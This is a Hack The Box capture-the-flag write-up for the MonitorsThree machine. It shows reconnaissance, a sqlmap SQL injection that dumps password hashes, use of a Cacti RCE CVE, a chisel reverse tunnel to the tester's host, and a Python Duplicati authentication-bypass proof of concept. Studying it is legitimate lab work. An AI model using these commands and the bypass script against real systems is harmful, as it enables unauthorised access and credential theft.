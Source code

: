 ```yaml
---
layout: post
title: HTB - monitorsthree
date: 2025-02-26 11:42 -0400
---
```


![monitorsthree](/assets/img/monitorsthree.png)

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-25 10:55 -04
Nmap scan report for 10.10.11.30
Host is up (0.16s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 86f87d6f4291bb897291af72f301ff5b (ECDSA)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-25 10:55 -04
Warning: 10.10.11.30 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.30
Host is up (0.17s latency).
All 65535 scanned ports on 10.10.11.30 are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 73.27 seconds
```

## subdomain bruteforce
```
~/workspace/projects/htb/monitorsthree » ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.monitorsthree.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.30/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 162ms]
| URL | http://10.10.11.30/
| --> | /cacti
    * FUZZ: cacti
```

- `monitorsthree.htb`
- `cacti.monitorsthree.htb`

### monitorsthree.htb
![main website](/assets/img/monitorsthree1.png)

This seems to be a simple webpage with a login. 

There is an sql injection on the forgot password page.

![main website sqli](/assets/img/monitorsthree4.png)

sqlmap can exploit it without tweaks:
`sqlmap -r request.txt -p username --dbms=mysql --threads 10 --sql-shell`

A couple of users found:
```bash
[*] David Thompson,Database Manager,1982-11-23,dthompson@monitorsthree.htb,5,633b683cc128fe244b00f176c8a950f5,83000.00,2022-09-15,mwatson
[*] Jennifer Anderson,Network Engineer,1990-07-30,janderson@monitorsthree.htb,6,1e68b6eb86b45f6d92f8f292428f77ac,68000.00,2021-06-20,janderson
[*] Marcus Higgins,Super User,1978-04-25,admin@monitorsthree.htb,2,31a181c8372e3afc59dab863430610e8,320800.00,2021-01-12,admin
[*] Michael Watson,Website Administrator,1985-02-15,mwatson@monitorsthree.htb,7,c585d01f2eb3e6e1073e92023088a3dd,75000.00,2021-05-10,dthompson
```

Crackstation founds the password for admin

![main website sqli](/assets/img/monitorsthree10.png)

The dashboard doesnt seem to have anything interesting. Lets try the credentials on cacti.

![main website dashboard](/assets/img/monitorsthree11.png)

It works. The ui shows version `1.2.26` seems to be vulnerable to CVE-2024-25641 and there is a poc for it [CVE-2024-25641](https://github.com/5ma1l/CVE-2024-25641)

![cacti rce](/assets/img/monitorsthree2.png)

# priv esc
## interesting stuff on /opt
```bash
www-data@monitorsthree:~/html/cacti/resource$ ls /opt
ls /opt
backups
containerd
docker-compose.yml
duplicati
```

"Duplicati is a free, open-source backup solution that offers zero-trust, fully encrypted backups for your data.". It can be accessed at port 8200. Let's use chisel to forward it.

- server (host):
    - chisel server -p 8000 --reverse
- client (box):
    - ./chisel client 10.10.14.37:8000 R:8200:127.0.0.1:8200

![duplicati](/assets/img/monitorsthree7.png)

Seems to be version `2.0.8.1` according to the html.
![duplicati version](/assets/img/monitorsthree12.png)

And there is an [auth bypass](https://read.martiandefense.llc/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) for it online.

POC based on the article:
```python
import requests
import base64
import hashlib

server_pass = base64.b64decode("SERVER_PASSWORD")

with requests.Session() as ses:
    burp0_url = "http://0.0.0.0:8200/login.cgi"
    burp0_headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    burp0_data = {"get-nonce": "1"}
    res = ses.post(burp0_url, headers=burp0_headers, data=burp0_data)
    nonce = base64.b64decode(res.json()["Nonce"])

    out = base64.b64encode(hashlib.sha256(nonce + server_pass).digest())

    burp0_url = "http://0.0.0.0:8200/login.cgi"
    burp0_headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    burp0_data = {"password": out}
    ses.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(f"{ses.cookies.get('session-auth')}")
```

![duplicati](/assets/img/monitorsthree6.png)

The backup runs inside a Mono runtime. That way its isolated from the host.
But the dockerfile mounts `/` to `/source`. So every file on host is available inside the container.
```yaml
volumes:
  - /opt/duplicati/config:/config
  - /:/source
```

We can then just choose to backup the root and user flag and select the output location.

![duplicati](/assets/img/monitorsthree13.png)
![duplicati](/assets/img/monitorsthree9.png)
![duplicati](/assets/img/monitorsthree3.png)

```bash
www-data@monitorsthree:/tmp/123$ cat ./home/marcus/user.txt
ff150***************************

www-data@monitorsthree:/tmp/123$ cat ./root/root.txt
caaa2***************************
```
